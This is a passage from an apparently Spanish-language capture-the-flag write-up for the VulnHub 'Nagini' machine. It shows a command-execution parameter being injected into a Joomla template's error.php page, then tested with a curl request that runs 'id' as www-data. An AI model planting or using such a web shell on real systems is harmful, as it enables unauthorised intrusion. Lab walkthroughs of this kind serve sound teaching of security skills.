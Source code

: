 * Ahora, seleccionamos la plantilla **Protostar**:

<p align="center">
<img src="/assets/images/vulnhub-writeup-nagini/Captura21.png">
</p>

* La página que usaremos para inyectar la **CMD**, será la de **error.php**:

<p align="center">
<img src="/assets/images/vulnhub-writeup-nagini/Captura22.png">
</p>

* Guarda y con **curl** podemos probar si funcionó:
```bash
curl -s http://192.168.1.006/joomla/templates/protostar/error.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Excelente, si funcionó.
